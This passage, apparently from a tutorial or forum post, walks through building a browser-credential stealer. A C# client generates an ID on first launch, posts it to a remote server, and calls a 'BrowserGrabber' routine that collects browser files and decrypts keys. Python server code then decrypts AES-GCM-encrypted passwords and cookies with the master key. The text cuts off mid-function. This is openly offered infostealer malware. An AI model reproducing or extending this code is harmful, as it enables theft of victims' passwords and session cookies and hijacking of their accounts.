 

Now that we have written and parsed the method, we need to call it somewhere. It seems to me that the best option would be during the initial launch of the client, that is, when a unique identifier is not found and the client creates it. Here's what it looks like in code:

[CODE]

    // Load or create a unique identifier

    if (File.Exists(filePath))

    {

    Variables.uniqueId = File.ReadAllText(filePath).Trim(); // Load a unique identifier from a file

    }

    else

    {

    Variables.uniqueId = Guid.NewGuid().ToString(); // Generate a new unique identifier

    await WriteToFileAsync(filePath, Variables.uniqueId); // Write a unique identifier to a file

    await SendPostRequestAsync($"{Variables.ip}/receive_id", Variables.uniqueId); // Send a unique identifier to the server

    await BrowserGrabber(); // Call browser file collection and key decryption

    }

[/CODE]



Let's now look at the server side of the code, which will accept JSON and decrypt AES.

[CODE=python]

    def decrypt_password(buffer, master_key):

    try:

        iv = buffer[3:15]

        payload = buffer[15:]

        cipher = AES.new(master_key, AES.MODE_GCM, iv)

        decrypted_pass = cipher.decrypt(payload)[:-16].decode()

        return decrypted_pass

    except Exception as e:

        return f"Error decrypting password: {e}"





    def decrypt_cookie(buffer, master_key):

    try:
